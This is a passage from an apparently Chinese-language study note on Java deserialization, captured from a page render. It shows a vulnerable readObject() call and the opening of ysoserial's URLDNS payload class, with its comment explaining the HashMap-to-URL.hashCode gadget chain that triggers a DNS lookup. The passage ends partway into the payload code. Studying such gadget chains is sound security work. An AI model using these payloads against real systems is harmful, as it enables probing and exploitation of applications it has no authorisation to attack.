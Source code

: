 ```java
        ObjectInputStream ois = new ObjectInputStream(bai);
        Object o = (Object)ois.readObject();
    }
}

```

### URLDNS

yso中的利用链

```java
package ysoserial.payloads;

import java.io.IOException;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


/**
 * A blog post with more details about this gadget chain is at the url below:
 *   https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
 *
 *   This was inspired by  Philippe Arteau @h3xstream, who wrote a blog
 *   posting describing how he modified the Java Commons Collections gadget
 *   in ysoserial to open a URL. This takes the same idea, but eliminates
 *   the dependency on Commons Collections and does a DNS lookup with just
 *   standard JDK classes.
 *
 *   The Java URL class has an interesting property on its equals and
 *   hashCode methods. The URL class will, as a side effect, do a DNS lookup
 *   during a comparison (either equals or hashCode).
 *
 *   As part of deserialization, HashMap calls hashCode on each key that it
 *   deserializes, so using a Java URL object as a serialized key allows
 *   it to trigger a DNS lookup.
 *
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 *
 *
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
```